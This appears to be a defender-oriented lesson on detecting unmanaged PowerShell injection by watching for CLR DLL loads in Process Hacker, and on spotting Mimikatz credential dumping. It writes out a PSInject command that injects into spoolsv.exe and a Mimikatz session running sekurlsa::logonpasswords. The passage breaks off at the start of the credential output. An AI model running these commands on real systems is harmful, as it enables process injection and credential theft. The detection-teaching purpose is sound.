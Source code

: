 C# is considered a "managed" language, meaning it requires a backend runtime to execute its code. The [Common Language Runtime (CLR)](https://docs.microsoft.com/en-us/dotnet/standard/clr) serves as this runtime environment. [Managed code](https://docs.microsoft.com/en-us/dotnet/standard/managed-code) does not directly run as assembly; instead, it is compiled into a bytecode format that the runtime processes and executes. Consequently, a managed process relies on the CLR to execute C# code.

As defenders, we can leverage this knowledge to detect unusual C# injections or executions within our environment. To accomplish this, we can utilize a useful utility called [Process Hacker](https://processhacker.sourceforge.io/).

Within Process Hacker, examining the module loads for `powershell.exe`, by right-clicking on `powershell.exe`, clicking "Properties", and navigating to "Modules", we can find relevant information.

The presence of "Microsoft .NET Runtime...", `clr.dll`, and `clrjit.dll` should attract our attention. These 2 DLLs are used when C# code is ran as part of the runtime to execute the bytecode. If we observe these DLLs loaded in processes that typically do not require them, it suggests a potential [execute-assembly](https://www.cobaltstrike.com/blog/cobalt-strike-3-11-the-snake-that-eats-its-tail/) or [unmanaged PowerShell injection](https://www.youtube.com/watch?v=7tvfb9poTKg&ab_channel=RaphaelMudge) attack.

To showcase unmanaged PowerShell injection, we can inject an [unmanaged PowerShell-like DLL](https://github.com/leechristensen/UnmanagedPowerShell) into a random process, such as `spoolsv.exe`. We can do that by utilizing the [PSInject project](https://github.com/EmpireProject/PSInject) in the following manner.

```powershell-session
 powershell -ep bypass
 Import-Module .\Invoke-PSInject.ps1
 Invoke-PSInject -ProcId [Process ID of spoolsv.exe] -PoshCode "V3JpdGUtSG9zdCAiSGVsbG8sIEd1cnU5OSEi"
```

After the injection, we observe that "spoolsv.exe" transitions from an unmanaged to a managed state as it is running Powershell.exe.

# Detection Example 3: Detecting Credential Dumping

One widely used tool for credential dumping is [Mimikatz](https://github.com/gentilkiwi/mimikatz), offering various methods for extracting Windows credentials. One specific command, "sekurlsa::logonpasswords", enables the dumping of password hashes or plaintext passwords by accessing the [Local Security Authority Subsystem Service (LSASS)](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service). LSASS is responsible for managing user credentials and is a primary target for credential-dumping tools like Mimikatz.

```cmd-session
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
```